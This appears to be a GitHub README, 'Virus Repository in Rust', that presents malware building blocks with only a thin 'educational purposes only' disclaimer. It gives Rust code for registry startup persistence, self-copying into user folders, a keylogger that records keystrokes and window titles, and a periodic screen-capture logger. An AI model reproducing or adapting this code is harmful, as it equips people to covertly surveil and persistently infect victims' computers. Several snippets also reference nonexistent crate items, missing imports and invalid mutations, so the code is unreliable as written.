 # Virus Repository in Rust

This repository contains code and commands for various functionalities of a virus. These functionalities are for educational purposes only, and should not be used for any malicious purposes.

# Disclaimer
The author of this repository is not responsible for any damage or harm caused by the use of this code or commands. Use at your own risk.

# Persistence: 
Adds itself to the Windows registry to ensure it runs on startup

``` rs
use std::process::Command;
use winreg::enums::*;
use winreg::RegKey;

fn add_to_startup() -> Result<(), std::io::Error> {
    let key = RegKey::predef(HKEY_CURRENT_USER)
        .create_subkey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run")?;

    let exe_path = std::env::current_exe()?;
    let exe_file_name = exe_path.file_name().unwrap().to_str().unwrap();

    key.set_value(exe_file_name, &exe_path.to_str().unwrap())?;

    Ok(())
}

fn main() {
    // Code for the virus
    // ...

    // Add the virus to the Windows startup
    add_to_startup().unwrap();
}
```
This code creates a registry key at `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` and sets the value of the executable's filename to the path of the executable. This ensures that the virus will run on startup. Note that this code is specific to Windows and will not work on other operating systems. Also, the user must have sufficient privileges to modify the registry.

# Spreadability: 
creates copies of itself in various locations on the user's computer to increase its chance of executing

``` rs
use std::fs::copy;
use std::io::Result;
use std::path::PathBuf;

fn copy_to_location(virus_path: &PathBuf, location: &PathBuf) -> Result<()> {
    let new_path = location.join(virus_path.file_name().unwrap());

    copy(virus_path, new_path)?;

    Ok(())
}

fn spread_virus() -> Result<()> {
    let virus_path = std::env::current_exe()?;
    let virus_name = virus_path.file_name().unwrap();

    let desktop = PathBuf::from(std::env::var("USERPROFILE").unwrap() + "\\Desktop");
    copy_to_location(&virus_path, &desktop)?;

    let downloads = PathBuf::from(std::env::var("USERPROFILE").unwrap() + "\\Downloads");
    copy_to_location(&virus_path, &downloads)?;

    let temp = std::env::temp_dir();
    copy_to_location(&virus_path, &temp)?;

    Ok(())
}

fn main() {
    // Code for the virus
    // ...

    // Spread the virus
    spread_virus().unwrap();
}
```
# Keylogging

``` rs
// Keylogger in Rust
use std::fs::OpenOptions;
use std::io::Write;
use std::time::Duration;
use winapi::{
    ctypes::c_int,
    shared::{
        minwindef::{DWORD, LPARAM, WPARAM},
        ntdef::LPCWSTR,
        windef::HWND,
    },
    um::{winuser::GetForegroundWindow, winuser::GetWindowTextW},
};
use user32_sys::winuser::{
    GetAsyncKeyState, MapVirtualKeyW, MapVirtualKeyWParams, SendInput, SendInputParams,
    VirtualKeyCode,
};

const LOG_FILE_NAME: &str = "keylog.txt";

fn log_keys() {
    let mut file = OpenOptions::new()
        .create(true)
        .append(true)
        .open(LOG_FILE_NAME)
        .unwrap();
    loop {
        std::thread::sleep(Duration::from_millis(10));
        for i in 0..255 {
            let state = unsafe { GetAsyncKeyState(i as c_int) };
            if (state & 1) == 1 {
                let mut buf = [0u16; 2];
                let mut params = MapVirtualKeyWParams {
                    uCode: i,
                    uMapType: 0,
                };
                unsafe {
                    MapVirtualKeyW(i, 0);
                    let _ = GetWindowTextW(GetForegroundWindow(), buf.as_mut_ptr(), 2);
                    let text = String::from_utf16_lossy(&buf);
                    let _ = write!(file, "[{}]: {}\n", text.trim(), i);
                }
            }
        }
    }
}

fn main() {
    log_keys();
}
```

# ** ScreenLogging**
``` rs
// Screen Logger in Rust
use std::fs::OpenOptions;
use std::io::{BufWriter, Write};
use std::time::Duration;
use winapi::{
    shared::{
        minwindef::{BOOL, DWORD, HBITMAP, HDC, LPARAM},
        ntdef::LPCWSTR,
        windef::{HDC__, HWND, RECT},
    },
    um::{
        wingdi::{
            BitBlt, CreateCompatibleBitmap, CreateCompatibleDC, DeleteDC, DeleteObject,
            GetDeviceCaps, GetObjectW, SelectObject, BITMAP, COLORREF, SRCCOPY,
        },
        winuser::GetDesktopWindow,
    },
};

const LOG_FILE_NAME: &str = "screenlog.txt";

fn log_screen() {
    let mut file = OpenOptions::new()
        .create(true)
        .append(true)
        .open(LOG_FILE_NAME)
        .unwrap();
    let hwnd = unsafe { GetDesktopWindow() };
    let mut rect: RECT = Default::default();
    let hdc_screen = unsafe { GetDC(hwnd) };
    let hdc = unsafe { CreateCompatibleDC(hdc_screen) };
    let width = unsafe { GetDeviceCaps(hdc_screen, 8) };
let height = unsafe { GetDeviceCaps(hdc_screen, 10) };
let hbitmap = unsafe { SelectObject(hdc, CreateCompatibleBitmap(hdc_screen, width, height)) };
let mut bitmap: BITMAP = Default::default();
let _ = unsafe { GetObjectW(hbitmap as *mut _, std::mem::size_of::<BITMAP>(), &mut bitmap) };
let mut writer = BufWriter::new(file);
loop {
    std::thread::sleep(Duration::from_secs(10));
    unsafe { BitBlt(hdc, 0, 0, width, height, hdc_screen, 0, 0, SRCCOPY) };
    let mut written: DWORD = 0;
    let mut data: Vec<u8> = vec![0; (bitmap.bmWidth * bitmap.bmHeight * 4) as usize];
    let lp_bits: *mut u8 = data.as_mut_ptr();
    let bmi = std::mem::zeroed::<winapi::um::wingdi::BITMAPINFO>();
    let bmi_header = bmi.bmiHeader;
    bmi_header.biSize = std::mem::size_of::<winapi::um::wingdi::BITMAPINFOHEADER>() as u32;
    bmi_header.biWidth = bitmap.bmWidth;
    bmi_header.biHeight = bitmap.bmHeight;
    bmi_header.biPlanes = 1;
    bmi_header.biBitCount = 32;
    bmi_header.biCompression = winapi::um::wingdi::BI_RGB;
    let result = unsafe {
        GetDIBits(
            hdc_screen,
            hbitmap as winapi::um::winnt::HANDLE,
            0,
            bitmap.bmHeight as u32,
            lp_bits as *mut _,
            &bmi,
            winapi::um::winnt::DIB_RGB_COLORS,
        )
    };
    if result == 0 {
        break;
    }
    let color_bytes = 4;
    for row in data.chunks((bitmap.bmWidth * color_bytes) as usize) {
        writer.write_all(row).unwrap();
    }
    writer.flush().unwrap();
}
unsafe {
    DeleteObject(hbitmap as winapi::shared::windef::HGDIOBJ);
    DeleteDC(hdc);
    DeleteDC(hdc_screen);
}
}
fn main() {
log_screen();
}
```

